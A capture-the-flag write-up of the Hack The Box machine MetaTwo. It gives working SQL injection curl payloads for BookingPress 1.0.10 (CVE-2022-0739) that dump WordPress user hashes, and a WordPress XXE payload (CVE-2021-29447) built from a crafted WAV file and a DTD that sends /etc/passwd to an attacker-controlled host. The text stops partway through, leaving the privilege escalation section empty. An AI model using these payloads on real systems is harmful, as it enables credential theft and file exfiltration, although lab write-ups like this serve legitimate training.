







# MetaTwo Writeup - by Thammanant Thamtaranon  
- MetaTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.186`  
  
- The scan showed two open ports:
  - 21 (FTP)
  - 22 (SSH)  
  - 80 (HTTP)
  - 25764 (Unknown)
  - 52677 (Unknown)
- I then added `metapress.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration 
- I try conncet to fpt, however it does not allow anonymous login.
- I ran a directory brute-force using `dirsearch`:  `dirsearch -u http://metapress.htb`
- However, it got timed out. Simlary with other tools like `gobuster`.
- Using burp Suite to inspect the request shown request to plugin `bookingpress` with version 1.0.10.


## Exploitation  
- We then search for bookingpress 1.0.10 CVE and found **CVE-2022-0739**.
- The **CVE-2022-0739** is an Unauthenticated SQL Injection (SQLi).
- We then follow the PoC instruction by first finding `_wpnonce`.
  
- Then we make a request from the PoC:
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=229f792eae&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```
 

- Next we run the command:
```
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=229f792eae&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,1,2,3,4,5,6 from wp_users-- -'
```
 
- This command will extract the credentials from the database.
- We founded user `admin` and `manager`.
- We then saved the hashes into the file and run john the ripper to crack the hashes.

- We login as manager in wordpress.
- Notice the wordpress version 5.6.2 from before, we then search for CVE, and found **CVE-2021-29447**.
- The **CVE-2021-29447** is a XXE (XML External Entity injection) happened in uploading a malicious WAV audio file containing crafted metadata (XMP).
- We then create the payload.wav : `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.16.11:8000/xx3.dtd">%remote;%init;%trick;]>\x00' > payload.wav`
- Then we create the DTD file with the content:
```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.16.11:8000/?leak=%file;'>">
```
- We run python server and upload the payload.wav to wordpress.

- We then run the command `echo '...' |base64 --decode | php -r 'echo zlib_decode(file_get_contents("php://stdin"));'`

- We then confirm the user `jnelson`.
- I try

## Privilege Escalation  
